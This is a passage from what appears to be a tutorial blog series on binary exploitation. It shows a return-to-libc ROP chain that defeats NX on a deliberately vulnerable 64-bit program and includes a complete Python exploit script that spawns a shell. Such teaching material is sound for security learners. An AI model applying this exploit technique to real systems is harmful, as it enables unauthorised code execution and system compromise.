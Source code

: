 Ignore Lines 5 and 13 for now and notice the buf variable (Lines 11 to 17) which corresponds to the stack map we initially planed. If we try to use this exploit, we will still get a segmentation fault… but not a shell:

![](https://miro.medium.com/max/1400/1*XKN7u0rjlnvjoSVTa2VXtQ.png)

If we debug the vulnerable program using the exploit mentioned above and we set a breakpoint at the return instruction of the greet_me function, we have the following:

![](https://miro.medium.com/max/1400/1*Et80D1Ar8iA1kv1ukcCEGA.png)

**1 → RBP** has been overwritten, **2 →** the next instruction (ret) will pop the address at the top of the stack to **RIP (3)** and the **POP RDI, RET** will be executed placing the “/bin/sh” **(3)** to the RDI register. While everything works as expected, by letting the program to continue we land to the following instruction:

![](https://miro.medium.com/max/1400/1*x87WrwTmmZbrU-IAl65FwA.png)

The 64 bit calling convention requires the stack to be 16-byte aligned before a `call` instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. `movaps` triggers a general protection fault when operating on unaligned data, **so try padding your ROP chain with an extra** `**ret**` **before returning into a function or return further into a function to skip a** `**push**` **instruction** [4]. We can find an extra RET instruction address in the libc file, following exactly the process we did in the POP RDI, RET gadget (using the ropper or a similar tool). The final exploitation script will be as follows:

```
import sys
import structlibc_base_address = 0x7ffff7dc5000
ret = libc_base_address+0xc0533
pop_rdi = libc_base_address + 0x26b72
bin_sh = libc_base_address + 0x1b75aa
system_function = libc_base_address + 0x55410
exit_function = libc_base_address + 0x49bc0buf = b”A”* 208
buf += b”BBBBBBBB”
buf += struct.pack(‘<Q’,ret)
buf += struct.pack(‘<Q’,pop_rdi)
buf += struct.pack(‘<Q’,bin_sh)
buf += struct.pack(‘<Q’,system_function)
buf += struct.pack(‘<Q’,exit_function)sys.stdout.buffer.write(buf)
```

Running the vulnerable program using the output produced by the script above we finally get the shell:

![](https://miro.medium.com/max/1400/1*OvPwSbxY3BxDsZ2Fu2Hnkg.png)

In this part we enabled the NX protection and we used a technique, known as return into libc in order to bypass it. In Part 3 we will keep the same level of protection in order to demonstrate an additional bypassing technique which will allow us to execute code in the stack even when the NX protection has been enabled.

[1] [https://en.wikipedia.org/wiki/NX_bit](https://en.wikipedia.org/wiki/NX_bit)

[2] [https://en.wikipedia.org/wiki/Buffer_overflow](https://en.wikipedia.org/wiki/Buffer_overflow)

[3] The Ghidra Book: The Definitive Guide, Chris Eagle, Kara Nance, September 2020

[4] [https://ropemporium.com/guide.html#Appendix%20B](https://ropemporium.com/guide.html#Appendix%20B)